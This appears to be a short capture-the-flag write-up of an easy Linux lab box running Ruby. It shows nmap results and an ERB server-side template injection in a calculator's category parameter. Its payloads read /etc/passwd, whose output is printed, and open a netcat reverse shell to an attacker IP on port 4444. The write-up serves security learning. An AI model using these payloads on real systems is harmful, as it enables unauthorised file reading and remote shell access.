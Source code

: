 A Easy Linux box
Running Webrick 1.7.0
## Nmap
	`nmap -sC -sV 10.10.11.253` 
`Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-10 14:26 EDT`
`Nmap scan report for 10.10.11.253`
`Host is up (0.045s latency).`
`Not shown: 998 closed tcp ports (conn-refused)`
`PORT   STATE SERVICE VERSION`
`22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)`
`| ssh-hostkey:` 
`|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)`
`|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)`
`80/tcp open  http    nginx`
`Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel`

`Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .`
`Nmap done: 1 IP address (1 host up) scanned in 76.10 seconds`
	So port 80 and ssh are open
	

The box is running ruby on the backend. The weighted calculator is vulnerable to command injection as it does not filter <%=%> commands

I was able to read the etc/passwd file with the following 
`<%= File.read('/etc/passwd') %>`
`%3C%25%3D%20File.read%28%27%2Fetc%2Fpasswd%27%29%20%25%3E`

![[Pasted image 20240316185802.png]]
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
susan:x:1001:1001:Susan Miller,,,:/home/susan:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
```

### Reverse Shell
Injected the catergory parameter with 
`%3c%25%3d%20exec(%27rm%20/tmp/f%3bmkfifo%20/tmp/f%3bcat%20/tmp/f%7c/bin/sh%20-i%202%3e%261%7cnc%2010.10.14.152%204444%20%3e/tmp/f%27)%20%25%3e`
And got a shell!